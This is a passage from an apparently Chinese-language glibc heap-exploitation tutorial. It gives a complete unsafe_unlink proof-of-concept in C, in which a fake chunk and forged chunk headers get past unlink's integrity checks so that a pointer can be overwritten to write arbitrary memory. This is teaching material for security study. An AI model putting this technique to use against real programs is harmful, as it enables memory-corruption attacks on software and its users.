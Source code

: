 最后两次malloc(0x40)会得到同一个堆块。

### unsafe_unlink.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

uint64_t *chunk0_ptr; //位于bss区，攻击后可对bss区其他变量进行改写

int main()
{
	
	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1

	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    //绕过 P->fd->bk = P 判断
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    //绕过 P->bk->fd = P 判断

	uint64_t *chunk1_hdr = chunk1_ptr - header_size; 
    //获取chunk1 堆块的头部
	chunk1_hdr[0] = malloc_size;
    //伪造chunk1的pre_size，绕过 chunksize(P) == next_chunk(P)->prev_size 的判断
    chunk1_hdr[1] &= ~1;
    //修改previous_in_use位，让伪造的堆块处于free状态
	free(chunk1_ptr);
    //进行unlink 操作

	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;
	chunk0_ptr[0] = 0x4141414142424242LL;
	fprintf(stderr, "New Value: %s\n",victim_string);
}
```
在chunk0中伪造堆块，在chunk1中修改presize和size位，绕过判断：
